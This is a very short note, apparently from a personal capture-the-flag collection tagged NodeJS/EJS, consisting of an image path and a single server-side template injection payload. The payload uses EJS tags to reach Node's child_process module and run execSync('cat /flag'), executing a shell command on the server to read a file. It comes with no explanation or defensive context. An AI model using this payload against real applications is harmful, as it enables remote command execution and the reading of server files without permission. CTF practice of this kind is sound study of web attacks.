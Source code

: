 tags:: CTF/NodeJS/EJS

- `<%=global.process.mainModule.constructor._load('child_process').execSync("cat /flag")%>`